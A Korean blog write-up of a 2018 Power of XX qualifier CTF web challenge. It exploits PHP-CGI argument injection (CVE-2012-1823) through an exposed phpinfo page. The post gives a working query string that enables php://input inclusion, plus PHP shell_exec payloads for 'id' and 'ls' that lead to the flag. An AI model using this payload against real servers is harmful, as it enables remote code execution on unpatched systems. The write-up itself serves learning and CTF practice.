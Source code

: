 ```yaml
---
layout: post
title: ! "[CTF] 2018 POXX 예선 MyFirstServerInfo write up"
categories: [CTF]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - CTF
  - POXX
  - write-up
---
```


2018년도 Power of XX 의 예선에 참가했습니다. 작년엔 본선에 진출했으나 올해는 아쉽게도 예선만 참가하게 됐네요 :(
이 문제는 저에게 의미있는 문제가 될 것 같아요. 왜냐하면 공식적인 대회에서 플래그를 찾아낸 첫번째 문제거든요!
문제 이름에도 First가 들어가고..ㅎㅎ 앞으로 플래그를 보는게 익숙해졌으면 좋겠네요

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/phpinfo.png)

문제 페이지에 들어가면 `phpinfo`가 보인다.
지금까지 phpinfo 관련 문제들은 꽤 봐왔으나, 그때마다 이걸 보고 뭘 알아낼 수 있지? 어떻게 공격하지? 라는 생각만 들었다.
그래도 이번엔 열심히 취약점을 찾아봐야겠다는 생각으로 자세히 보니 cgi 라는게 많이 보였다.
cgi를 처음 알게 된건 이번 학기 네트워크 수업 실습때였는데, cgi를 사용하여 python과 html을 같이 쓰는거였다.

`cgi`란 공용 게이트웨이 인터페이스(Common Gateway interface)의 약자로 웹 서버 상에서 사용자 프로그램을 동작시키기 위한 조합이다.

그래서 cgi 취약점에 대해 찾아보다가 PHP-CGI(CVE-2012-1823) 취약점에 대해 포스팅한 글을 보게되었다.
[참고](https://m.blog.naver.com/PostView.nhn?blogId=heapskewl73&logNo=221130879514&proxyReferer=https%3A%2F%2Fwww.google.co.kr%2F)


취약점 요약: 2012년 1월 PHP 5.4.2 이전 버전에서 원격 코드 실행이 가능한 취약점이 발견됐다. 이 취약점은 sapi/cgi/cgi_main.c 파일 내의 CGI 스크립트(php-cgi)가 -s,-d,-c 등의 매개 변수를 적절히 검증하지 않아 발생한다.

1. 취약점 대상
![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-table1.png)

2. 취약점 공격
- php-cgi 주요 옵션
![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-table2.png)

- php.ini 주요 설정
![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-table3.png)

위 옵션들을 바탕으로 문제 페이지에 넘겨보면

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-s.png)

-s 옵션의 경우 색깔은 안입혀지지만 소스코드가 보이는 것을 확인할 수 있다.

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-burp-id.png)
-d 과 allow_url_include=1, auto_prepend_file=php://input 을 사용해 시스템 함수를 사용할 수 있다.
`?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input`
`<?php $contents = shell_exec("id"); echo "$contents"; die;`

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-id.png)

이 결과를 이용해 ls를 하면 파일 리스트가 뜨지 않을까 싶었다.

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-burp-ls.png)

`<?php $contents = shell_exec("ls"); echo "$contents"; die;`

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-ls.png)

index.php 파일과 알파벳+숫자로 이루어진 텍스트 파일이 있는 것을 확인할 수 있다.
다행히 바로 저 파일에 접근할 수 있었다.

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-flag.png)

플래그 :)
